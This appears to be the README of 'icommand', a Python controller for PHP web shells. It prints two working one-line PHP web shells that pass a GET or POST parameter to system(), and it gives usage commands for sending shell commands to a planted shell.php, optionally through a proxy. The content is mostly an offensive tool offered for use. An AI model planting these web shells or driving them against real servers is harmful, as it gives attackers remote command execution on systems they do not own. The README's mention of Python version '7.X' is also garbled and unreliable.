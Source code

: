 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
    - python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd
    - python icommand.py -u http://testserver.com -p id --proxy http://127.0.0.1:8080

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X  
Then [argparse][] is required.  
To install it run:  
`easy_install argparse` **OR** `pip install argparse`

